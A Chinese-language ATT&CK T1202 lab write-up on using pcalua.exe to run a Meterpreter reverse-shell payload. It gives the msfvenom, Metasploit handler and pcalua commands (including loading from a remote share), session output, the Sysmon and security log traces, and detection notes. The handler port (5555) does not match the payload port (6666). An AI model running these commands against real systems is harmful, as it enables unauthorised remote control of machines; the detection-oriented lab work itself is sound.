 # T1202-win-基于白名单Pcalua执行payload

## 来自ATT&CK的描述

可以使用各种Windows实用程序来执行命令，而不需要调用cmd。例如，Forfiles、程序兼容性助手（pcalua.exe）、WSL（WindowsSubsystem for Linux）组件以及其他实用程序可以从命令行界面、运行窗口或通过脚本来调用程序和命令的执行。

攻击者可能会滥用这些功能来规避防御，尤其是在破坏检测和/或缓解控制（如组策略）的同时执行任意动作。（这些控制限制/阻止了cmd或恶意负载相关文件扩展名的使用。）

## 测试案例

Windows进程兼容性助理(Program Compatibility Assistant)的一个组件。

说明：Pcalua.exe所在路径已被系统添加PATH环境变量中，因此，Pcalua命令可识别

Windows 7 默认位置：

C:\Windows\System32\pcalua.exe

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### 生成payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=6666 -f exe > shell.exe
```

#### MSF配置

```bash
msf5 exploit(multi/handler) > back
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 5555
lport => 5555
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
Pcalua -m -a \\192.168.1.119\share\shell.exe #可远程加载

Pcalua -m -a C:\Users\12306Br0\Desktop\a\shell.exe #可本地加载
```

#### 反弹shell

```bash
Msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:6666
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 4 opened (192.168.126.146:6666 -> 192.168.126.149:49163) at 2020-04-19 00:12:39 +0800

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
meterpreter > getpid
Current pid: 2804
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:12:37.744
ProcessGuid: {bb1f7c32-26f5-5e9b-0000-001075120e00}
ProcessId: 2148
Image: C:\Windows\System32\pcalua.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Program Compatibility Assistant
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName:
CommandLine: Pcalua  -m -a C:\Users\12306Br0\Desktop\a\shell.exe
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020db6d0600}
LogonId: 0x66ddb
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=280038828C2412F3867DDB22E07759CB26F7D8EA
ParentProcessGuid: {bb1f7c32-26ca-5e9b-0000-00109cdf0d00}
ParentProcessId: 2724
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"

EventID: 1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:12:37.775
ProcessGuid: {bb1f7c32-26f5-5e9b-0000-0010621a0e00}
ProcessId: 2804
Image: C:\Users\12306Br0\Desktop\a\shell.exe
FileVersion: 2.2.14
Description: ApacheBench command line utility
Product: Apache HTTP Server
Company: Apache Software Foundation
OriginalFileName: ab.exe
CommandLine: "C:\Users\12306Br0\Desktop\a\shell.exe"
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020db6d0600}
LogonId: 0x66ddb
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=C11C194CA5D0570F1BC85BB012F145BAFC9A4D6C
ParentProcessGuid: {bb1f7c32-26f5-5e9b-0000-001075120e00}
ParentProcessId: 2148
ParentImage: C:\Windows\System32\pcalua.exe
ParentCommandLine: Pcalua  -m -a C:\Users\12306Br0\Desktop\a\shell.exe

#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x864
新进程名: C:\Windows\System32\pcalua.exe

EventID：4688
进程信息:
新进程 ID: 0xaf4
新进程名: C:\Users\12306Br0\Desktop\a\shell.exe

EventID：5156
应用程序信息:
进程 ID: 2804
应用程序名称: \device\harddiskvolume2\users\12306br0\desktop\a\shell.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49163
目标地址: 192.168.126.146
目标端口: 6666
```

## 检测规则/思路

无具体检测。监控和分析基于主机的检测机制（如Sysmon）中的日志来查看事件，比如查看是否有进程创建事件（创建过程中使用了参数来调用程序/命令/文件和/或生成子进程/网络连接，或者该创建是由这些参数导致的）。

## 参考推荐

MITRE-ATT&CK-T1202:<https://attack.mitre.org/techniques/T1202/>

渗透测试-基于白名单执行payload--Pcalua:<https://blog.csdn.net/qq_17204441/article/details/89881795>
